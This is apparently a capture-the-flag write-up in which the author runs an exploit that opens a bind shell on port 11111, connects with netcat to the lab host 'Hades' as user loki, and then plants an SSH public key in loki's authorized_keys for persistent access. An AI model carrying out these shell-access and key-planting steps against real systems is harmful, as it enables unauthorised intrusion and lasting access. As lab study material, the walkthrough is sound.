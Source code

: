 I restarted the service, ran the exploit, and used netstat to verify that port 11111 had been opened:

```text
root@kali:~# netstat -antp | grep 11111
tcp        0      0 0.0.0.0:11111           0.0.0.0:*               LISTEN      29231/bar
```

I fired up netcat and connected to port 11111 and obtained a shell. 

```
root@kali:~# nc -v localhost 11111
nc: cannot connect to localhost (::1) 11111 [11111]: Connection refused
nc: localhost (127.0.0.1) 11111 [11111] open
id
uid=0(root) gid=0(root) groups=0(root)
hostname
kali
```

Confident that I had a working exploit, I updated the code to target 172.16.229.130. I ran the exploit once again, and used netcat to connect to port 11111 on 172.16.229.130

```
root@kali:~# nc -v 172.16.229.130 11111
nc: 172.16.229.130 (172.16.229.130) 11111 [11111] open
id
uid=1000(loki) gid=1000(loki) groups=1000(loki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
hostname
Hades
```

I now had a foothold on the server as user loki. Now I had to escalate to a root shell get that flag.  


### Getting a root shell

Before going any further, I decided to setup a passwordless SSH login into the server. By copying my SSH public key over to loki's account, I could login with SSH and get a proper interactive shell. On Hades: 

```
cd /home/loki
mkdir .ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAl+87gccDnr6OVHGe97cdIsRycY2fBzwXeM3RjWBQuUUunTUgWW4568XM/NrqPxTCOu4vrsBYVEN3YBbHQ/53z0BClO6LCI5UysNjszYnpRP4H7fO6fsq21UJu6iTlZS+Pw6AZyruvXXBQmZ3zn6AkBSRPlAuDrxPaHHsHWQBhr5KcGr68rrD7xL7y+VNWUHzXYCjQ51/oy0ssnGFv553zXVkkTOlu8UL5NeOEHfCzeIKEnRe+A8032NvvZGt5E2nHFWYpoyfvyrh0i/M+NRjkHZJBQ2cR9OGLvIs0Dn3Spt/IuGWU5BsSpFCuSlm2CDC02Wmi+27rhCEe2gCPkQz root@kali' > .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

I went ahead and killed the netcat connection and logged in to Hades directly as loki.
